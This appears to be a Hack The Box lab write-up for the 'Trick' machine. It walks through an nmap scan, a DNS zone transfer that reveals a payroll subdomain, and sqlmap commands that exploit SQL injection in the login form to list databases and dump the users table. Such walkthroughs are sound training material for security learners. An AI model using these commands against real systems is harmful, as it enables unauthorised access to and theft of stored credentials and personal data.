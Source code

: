 # HTB Trick
![Alt text](./Trick/trick.png?raw=true "Card")

## 1. NMAP SCAN

As a first step I did a nmap scan on the address with the following result:

```
┌──(root💀animale)-[/home/animale/HTB/Trick]
└─# nmap -sC -sV 10.10.11.166
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-31 12:43 EDT
Nmap scan report for trick.htb (10.10.11.166)
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.50 seconds
                                                            
```
## 2. Add machine ip to /etc/hosts

Add 10.10.11.166 in /etc/hosts with the following command:

```
echo "10.10.11.166 trick.htb">>/etc/hosts
```

## 3. Check the what's on port 80

Going on the web page we see as follow:

![Alt text](./Trick/trick.htb.png?raw=true "Web Page")

Running a gobuster scan, we don't see nothing interesting.

After some time searching for info, I decided to search for DNS Zone Transfer, which can be verified sendig **axfr** query.

AXFR is a mechanism for replicating DNS data across DNS servers. If, for example, the yale.edu administrator has two DNS servers, a.ns.yale.edu and b.ns.yale.edu, he can edit the yale.edu data on a.ns.yale.edu, and rely on AXFR to pull the same data to b.ns.yale.edu.

```
└─$ dig axfr trick.htb @trick.htb

; <<>> DiG 9.18.0-2-Debian <<>> axfr trick.htb @trick.htb
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 200 msec
;; SERVER: 10.10.11.166#53(trick.htb) (TCP)
;; WHEN: Wed Aug 31 13:00:17 EDT 2022
;; XFR size: 6 records (messages 1, bytes 231)

```

We notice that there is a subdomain called **preprod-payroll.trick.htb**. Let's check it out!!!

![Alt text](./Trick/preprod-payroll.trick.htb.png?raw=true "Web Page")

We can see that we are in a login page.
## **4. Scan preprod-payroll.trick.htb**

I run a scan with BurpSuite and it found a SQL Injection!

![Alt text](./Trick/Burp.png?raw=true "Web Page")
## **4. Check for SQL Injection**

Let's try to use a random usernale and password (admin/admin) to check the errors, if any.

The error is generic, **Username or password is incorrect.** .

Let's copy the request as a CURL request and use it in sqlmap, replacing curl with sqlmap.

```
└─# sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://preprod-payroll.trick.htb' -H 'Connection: keep-alive' -H 'Referer: http://preprod-payroll.trick.htb/login.php' -H 'Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5' --data-raw 'username=admin&password=admin' --batch  
```

Here we are!!! We found a sql injection.

Let's re-run the command with the **--dbs** option to check the DBs. 

```
└─# sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://preprod-payroll.trick.htb' -H 'Connection: keep-alive' -H 'Referer: http://preprod-payroll.trick.htb/login.php' -H 'Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5' --data-raw 'username=admin&password=admin' --dbs
```

We get 2 DBs:
1. information_schema
2. payroll_db

Let's see what is inside the **payroll_db**, use the options **-D payroll_db --tables** instead of **--dbs** 

```
└─# sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://preprod-payroll.trick.htb' -H 'Connection: keep-alive' -H 'Referer: http://preprod-payroll.trick.htb/login.php' -H 'Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5' --data-raw 'username=admin&password=admin' -D payroll_db --tables

```

The result is:

```
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+

```

Let's see what's inside the **users** table, replacing **--tables** with **-T users --dump**

```
└─# sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://preprod-payroll.trick.htb' -H 'Connection: keep-alive' -H 'Referer: http://preprod-payroll.trick.htb/login.php' -H 'Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5' --data-raw 'username=admin&password=admin' -D payroll_db -T users --dump

```

